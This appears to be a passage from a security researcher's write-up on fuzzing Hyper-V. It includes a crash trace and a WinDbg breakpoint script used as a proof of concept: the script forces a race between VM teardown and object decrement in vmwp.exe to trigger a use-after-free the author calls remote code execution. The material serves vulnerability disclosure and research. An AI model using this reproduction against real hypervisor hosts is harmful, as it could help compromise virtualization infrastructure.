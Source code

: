```
00007ff7`88312d5d 488b07          mov     rax,qword ptr [rdi] ds:00000210`a424bfb0=????????????????
```
  - How I fuzzed it: automation .. essentially can be seen as a by-product while fuzzing at scale. Well.. what I realized fuzzing is, and why automation is an essential part of your fuzzing efforts, not only as automation, will be in the scope of the next post. Meanwhile to sum it up, lucky me :)

  - How to reach to fuzz : 
    + [Hyper-V Cmdlets](https://docs.microsoft.com/en-us/powershell/module/hyper-v/?view=windowsserver2022-ps) yep that is right, Azure attack is not Pwn2Own attack, and for example turn on/off is something that attacker can do
    + though this is always on the edge, about turn off bugs for example check [February 23, 2021 Revision - bottom of the page](https://www.microsoft.com/en-us/msrc/bounty-hyper-v)
    
  - POC
    + example how to make Race Conditions better demonstrate for repro
    + second part of poc is turn on+off VM
    
```
.childdbg 1 
g 

.logopen sharablebuggy.txt; 

r @$t1 = 0
bp vmwp!VirtualMachine::InitInterceptHandlers+0x154 "r @$t1 = @rax+60; g"

bp vmwp!Vml::VmSharableObject::DecrementUserCount+0x59 ".if(@$t1==@rdi+10){.echo RACER_1_FREEZED; bd 1 2; be 4; dqs rdi; r rip = vmwp!Vml::VmSharableObject::DecrementUserCount-2; eb rip eb fe}.else{}; g"

bp vmwp!Vml::VmSharableObject::DecrementUserCount-2 ".echo RACER_1_RESUMED___UAF_TRIGGER; r rip = vmwp!Vml::VmSharableObject::DecrementUserCount+0x59; g"

bu vmwp!VirtualMachine::Teardown+0x1d0-5 ".echo RACER_2_TEARDOWN_FREEZED; bd 3; r rip = vmwp!VirtualMachine::Teardown-2; eb rip eb fe; g"

bp vmwp!VirtualMachine::Teardown-2 ".echo RACER_2_TEARDOWN_RESUMED; r rip = vmwp!VirtualMachine::Teardown+0x1d0-5; g"

bp vmwp!VirtualMachine::Teardown+0x1d0 ".echo RACER_2_TEARDOWN_FINISHED___UAF_GO; be 2; g"

g

```
    

> ### Few highlights to note
>
>
> all of them RCE + UAF, to be honest most of my bugs are races due to the nature of my fuzzing, but Hyper-V is not an eve's garden for data format bugs anyway.
>
>bugs were not at fuzzing obvious target logic (files) path, but at the upper level (work items / packet handling)
>
>for those bugs using code coverage-based fuzzer can shoot you in your feet at the very least. On the other side, as I mentioned above, code coverage can play an essential role if used appropriately (hinting at weak points of fuzzer instead of main logic of fuzzer)
>
>Hyper-V is hard (?). All mentioned bugs, have some hidden quirk to reach, is not an obvious mistake by developer - quite opposite - code looks solid and well thought over, but you need magic eyes to catch those by analysis as a bug hunter, and fuzzing may change the game
>
